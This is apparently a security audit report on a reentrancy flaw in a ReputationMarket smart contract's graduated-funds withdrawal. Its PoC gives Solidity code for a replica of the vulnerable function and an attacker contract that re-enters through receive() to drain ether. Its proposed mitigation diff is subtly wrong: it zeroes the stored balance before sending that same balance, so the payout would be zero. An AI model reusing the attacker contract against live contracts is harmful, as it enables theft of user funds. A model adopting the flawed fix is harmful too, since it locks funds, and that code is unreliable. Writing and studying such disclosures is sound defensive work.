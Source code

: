 Faint Satin Yeti

High

# ReputationMarket::withdrawGraduatedMarketFunds is vulnerable to reentrancy and contract can be drained

### Summary

The following public function is vulnerable reentrancy.
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L660-L678

### Root Cause

The problem is that the function does not CEI pattern and the storage is updated last on line#677
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L677

### Internal pre-conditions

The address approved with the `GRADUATION_WITHDRAWAL` permission has to to malicious. The address is trusted to graduate market and withdraw graduated funds. However, due to the vulnerability the address can drain the entire contract of ether which is severe since the funds for all voting markets are stored in the `ReputationMarket` contract.

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The contract can be drained of all funds.

### PoC

This is a textbook reentrancy vulnerability but proof and for the sake of simplicity run the following test in remix
Here is the vulnerable function:
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L660C1-L678C4

Run the following test in Remix
1. First deploy the `ReentrantFunction` contract
2. Deploy the `MaliciousGraduatedMarketManager` contract
3. Call `ReentrantFunction::setUpTest` with 10 ether
4. Call the `MaliciousGraduatedMarketManager::attack` function
5.  `MaliciousGraduatedMarketManager` contract will end up with 9 ether

** Note **
The `profileId = 1` and it legitimately has 1 ether of funds that  need to be withdrawn. For simplicity code was commented out but it does not prevent the reentrancy since they don't update contract state.

```solidity
// SPDX-License-Identifier: MIT

contract ReentrantFunction {
    mapping(uint256 profileId => uint256 funds) public marketFunds;
//send the function 10 ether to setup the test
    function setUpTest() payable public {
        uint256 profileId = 1;
        marketFunds[profileId] = 1 ether;
    }

 function withdrawGraduatedMarketFunds(uint256 profileId) public /* whenNotPaused */ {
   /*  address authorizedAddress = contractAddressManager.getContractAddressForName(
      "GRADUATION_WITHDRAWAL"
    );
    if (msg.sender != authorizedAddress) {
      revert UnauthorizedWithdrawal();
    }
    _checkMarketExists(profileId);
    if (!graduatedMarkets[profileId]) {
      revert MarketNotGraduated();
    }
    if (marketFunds[profileId] == 0) {
      revert InsufficientFunds();
    } */

    _sendEth(marketFunds[profileId]);
    //emit MarketFundsWithdrawn(profileId, msg.sender, marketFunds[profileId]);
    marketFunds[profileId] = 0;
  }

   function _sendEth(uint256 amount) private {
        (bool success,) = payable(msg.sender).call{value: amount}("");
        require(success, "ETH transfer failed");
    }
}

contract MaliciousGraduatedMarketManager{
     ReentrantFunction repMarket;

    constructor(address _repMarket ){
        repMarket = ReentrantFunction(_repMarket);
    }

    function attack() external {
        repMarket.withdrawGraduatedMarketFunds(1);
    }

    receive() payable external{
        if(address(repMarket).balance > 1 ether){
            repMarket.withdrawGraduatedMarketFunds(1);
        }
    }
}


```

### Mitigation

Make the following changes:

```diff
+   marketFunds[profileId] = 0;
    _sendEth(marketFunds[profileId]);
    emit MarketFundsWithdrawn(profileId, msg.sender, marketFunds[profileId]);
-    marketFunds[profileId] = 0;
```